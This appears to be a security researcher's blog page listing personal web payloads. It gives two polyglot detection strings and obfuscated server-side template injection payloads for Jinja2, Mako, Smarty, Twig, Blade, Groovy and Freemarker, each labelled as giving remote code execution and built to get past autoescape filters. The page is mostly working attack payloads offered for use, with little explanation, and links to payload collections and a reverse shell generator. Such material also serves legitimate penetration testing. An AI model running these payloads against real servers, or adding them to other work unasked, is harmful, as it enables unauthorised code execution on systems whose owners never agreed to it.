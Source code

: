 ```yaml
---
# the default layout is 'page'
icon: fa-solid fa-book-skull
order: 3
---
```


A list of payloads that I do use when hunting for vulnerabilities. Personaly, I rarly use exploitation payloads but instead detection payloads.

> All payloads shown on this page are created by me. I provide a basic overview of my payloads, exploitation payloads and more advanced detection payloads will not be shared.
{{'{'}}: .prompt-info }

## Polyglot payloads
> This payload focuses on the detection of syntax errors

```brainfuck
<z>"z'z`%}})z${{'{'}}{{'{'}}z\
```

> This payload focuses on detecting transformation that can be used in future attacks

```brainfuck
tfmtstart%255Az%5Az\x5Az\u005Az%26%23x5A%3Btfmtend
```

## Server Side Template Injection (SSTI)
### Double template rendering payloads

> Some of the indexes used in the payload to extract characters for strings may need to be changed depending on the application you are using.
{: .prompt-info }

> These payloads can be used to bypass `autoescape` / `html escape` filters.
{: .prompt-tip }


#### Jinja2

**Impact:** Remote Code Execution (RCE)

```python
{{'{'}}{{'{'}}self._TemplateReference__context.cycler.__init__.__globals__.os.popen(self.__init__.__globals__.__str__()[150:152]+self.__init__.__globals__.__str__()[694]).read()}}
```

#### Mako

**Impact:** Remote Code Execution (RCE)

```python
${{'{'}}self.module.cache.util.os.popen(str().join(chr(i)for(i)in[105,100])).read()}
```

#### Smarty

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}passthru(implode(Null,array_map(chr(99)|cat:chr(104)|cat:chr(114),[105,100])))}}
```

#### Twig

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}id~passthru~_context|join|slice(2,2)|split(000)|map(_context|join|slice(5,8))}}
```
```php
{{'{'}}%block U%}id000passthru{{'{'}}%endblock%}{{'{'}}%set x=block(_charset|first)|split(000)%}{{'{'}}{{'{'}}[x|first]|map(x|last)|join}}
```

####  Blade

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}passthru(implode(Null,array_map(chr(99).chr(104).chr(114),[105,100])))}}
```

#### Groovy

**Impact:** Remote Code Execution (RCE)

```javascript
${{'{'}}x=new String();for(i in[105,100]){{'{'}}x+=((char)i).toString()};x.execute().text}
```

#### Freemarker

**Impact:** Remote Code Execution (RCE)

```java
${{'{'}}(6?lower_abc+18?lower_abc+5?lower_abc+5?lower_abc+13?lower_abc+1?lower_abc+18?lower_abc+11?lower_abc+5?lower_abc+18?lower_abc+1.1?c[1]+20?lower_abc+5?lower_abc+13?lower_abc+16?lower_abc+12?lower_abc+1?lower_abc+20?lower_abc+5?lower_abc+1.1?c[1]+21?lower_abc+20?lower_abc+9?lower_abc+12?lower_abc+9?lower_abc+20?lower_abc+25?lower_abc+1.1?c[1]+5?upper_abc+24?lower_abc+5?lower_abc+3?lower_abc+21?lower_abc+20?lower_abc+5?lower_abc)?new()(9?lower_abc+4?lower_abc)}
```

You can find a lot of great resources related to payloads below.
- [Payloads All The Things
](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Reverse Shell Generator](https://www.revshells.com/)


